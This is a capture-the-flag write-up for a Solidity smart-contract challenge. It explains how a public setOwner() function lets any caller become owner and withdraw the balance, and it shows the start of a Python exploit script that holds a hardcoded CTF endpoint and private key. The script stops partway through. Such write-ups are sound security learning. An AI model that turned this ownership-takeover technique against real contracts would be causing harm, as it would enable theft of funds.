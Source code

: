 8.  `function withdraw() public onlyOwner { ... }`: This is a public function that allows the owner of the contract to withdraw the entire balance of the contract. It is marked with the "onlyOwner" modifier, which restricts access to only the owner of the contract. The "payable(owner).transfer(address(this).balance);" statement transfers the balance of the contract to the owner's address.
9.  `function setOwner() public { ... }`: This is a public function that allows anyone to set the owner of the contract. It simply sets the "owner" state variable to the address of the caller.

-   So to solve this we have to call the `withdraw` function. But there is we have to pass the `onlyOwner` modifier. It means only the owner of the contract can withdraw the funds.

-   If we look further there is function called `setOwner()` which is public, i.e. anyone can call it & the caller will be set to owner.

```js
 function setOwner() public {
        //Set the owner of the contract.
        owner = msg.sender;
    }
```

-   So to solve the challenge we just have to call the `setOwner` function first then we can withdraw the fund by calling the `withdraw` function.

-   That's what we are doing here in `hack.py` script

```py
#!/usr/bin/python3
from brownie import web3, VideoChallengeIntro, Setup, network
from scripts.deploy import deploy
from scripts.helpful_scripts import get_account
from scripts.get_data import get_values
from scripts.submit import submit
from colorama import Fore
from subprocess import run


# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def print_colour(solved):
    if solved:
        print(f"{blue}Is complete: {green}{solved}{reset}")
    else:
        print(f"{blue}Is complete: {red}{solved}{reset}")


def hack(netwrk=False):
    # print(network)
    if netwrk != "mevsec":
        setup, _ = deploy()
        _, attacker = get_account()
    else:
        # RPC_URL, SETUP, PRIVATE_KEY, FLAG_ID = get_values()

        RPC_URL, SETUP, PRIVATE_KEY, FLAG_ID = (
            "http://ctf.mevsec.com:50662",
            "0x876807312079af775c49c916856A2D65f904e612",
            0xEDBC6D1A8360D0C02D4063CDD0A23B55C469C90D3CFBC2C88A015F9DD92D22B3,
            "e935b4c4545a1fb3cc6da0ef59a00f313d95e304c5ce1fe088ec52dcd9ff8c74",
        )

        try:
```